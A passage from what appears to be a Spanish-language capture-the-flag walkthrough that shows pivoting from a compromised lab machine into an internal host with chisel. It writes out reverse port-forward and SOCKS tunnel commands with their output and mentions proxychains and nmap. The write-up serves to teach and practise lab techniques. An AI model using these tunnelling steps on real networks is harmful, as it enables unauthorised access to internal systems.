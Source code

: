 Una opción es hacer remote port forwarding para ir viendo puerto por puerto con los siguientes parámetros.

_Máquina Kali_:

```ruby
❯ ./chisel server --reverse -p 1234
2024/10/16 14:35:20 server: Reverse tunnelling enabled
2024/10/16 14:35:20 server: Listening on http://0.0.0.0:1234
```

_Máquina Random_:

```ruby
root@random:~# ./chisel client 192.168.1.34:1234 R:22:10.10.0.130:22
2024/10/16 14:37:14 client: Connecting to ws://192.168.1.34:1234
2024/10/16 14:37:14 client: Connected (Latency 1.924012ms)
```

Con esto estaria haciendo que mi puerto **22** (**192.168.1.34**) se convierta en el puerto **22** de la máquina **Noob** (**10.10.0.130**) a través de la máquina **Random** que actúa como un intermediario.

![](https://eidd3.github.io/assets/img/randomnoob/noob/chisel22.png)

Y lo mismo con el **65530**

![](https://eidd3.github.io/assets/img/randomnoob/noob/chisel65530.png)

Pero hacer la conexión puerto por puerto, en caso de que sean varios puede ser tedioso.

### Socks

Otra forma de acceder a todo el tráfico es con **socks**, que permite tunelizar la conexión por un proxy local y redirigier el tráfico de la red interna de **Noob** a mi máquina.

_Máquina Kali_:

```ruby
❯ ./chisel server --reverse -p 1234
2024/10/16 15:57:35 server: Reverse tunnelling enabled
2024/10/16 15:57:35 server: Fingerprint t6Q2aEw5KvIprx+PfHQI8/n2GgtsLSU3tIvczuYhsX0=
2024/10/16 15:57:35 server: Listening on http://0.0.0.0:1234
2024/10/16 15:57:37 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
_Máquina Random_:

```ruby
root@random:~# ./chisel client 192.168.1.34:1234 R:socks
2024/10/16 15:56:05 client: Connecting to ws://192.168.1.34:1234
2024/10/16 15:56:05 client: Connected (Latency 1.611766ms)
```

Ahora que tengo conectividad a través del túnel creado, para poder interactuar con los puertos de la máquina **Noob**, tengo que configurar las herramientas para poder hacerlo como **proxychains** para poder usar **nmap** y **foxy proxy** para poder acceder desde navegador.

![](https://eidd3.github.io/assets/img/randomnoob/noob/foxyproxy.png)
